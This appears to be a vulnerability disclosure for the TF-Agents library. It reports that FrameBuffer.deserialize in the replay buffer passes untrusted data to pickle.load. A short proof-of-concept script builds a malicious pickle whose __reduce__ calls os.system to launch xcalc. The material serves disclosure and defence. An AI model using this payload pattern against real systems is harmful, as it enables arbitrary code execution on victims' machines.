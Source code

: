 # Description
TF-Agents is a library for Reinforcement Learning in TensorFlow.  
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install tf-agents')
from tf_agents.replay_buffers import py_hashed_replay_buffer
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
py_hashed_replay_buffer.FrameBuffer.deserialize(dumps,dumps)
```
* `pip3 install tf-agents`
* `python3 exploit.py`
